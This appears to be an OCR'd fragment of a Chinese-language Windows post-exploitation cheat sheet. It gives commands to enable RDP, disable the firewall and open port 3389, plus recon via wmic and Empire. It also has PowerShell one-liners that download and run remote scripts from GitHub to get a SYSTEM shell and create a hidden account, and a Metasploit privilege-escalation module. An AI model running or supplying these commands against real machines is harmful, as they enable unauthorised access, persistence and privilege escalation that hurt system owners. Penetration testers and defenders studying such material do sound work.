 ```
#如果不允许远程连接，修改注册表

REG ADD "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f
REG ADD "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp" /v PortNumber /t REG\_DWORD /d 0x00000d3d /f


```

```
#放行/开启3389端口
netsh advfirewall firewall add rule  protocol=TCP dir=in localport=3389 action=allow

#关闭防火墙
netsh firewall set opmode mode=disable
netsh advfirewall set allprofiles state off


```

```
#自动收集信息
1.VMIC
vmic是Windows管理工具命令行，默认情况下，win xp不允许低权限用户使用wmic，win7以上方才可以
\[http://www.fuzzysecurity.com/scripts/files/wmic\_info.rar\](http://www.fuzzysecurity.com/scripts/files/wmic\_info.rar)

2.Empire
#可查询本机用户、域组成员、密码设置时间
usemodule situational\_awareness/host/winenum


```

```
#添加隐藏账户 开启sys权限cmd
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\\system'

#添加用户并隐藏
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')


```

### 0x03 提权小结

```
#MSF提权模块
$use post/multi/recon/local\_exploit\_suggester


```
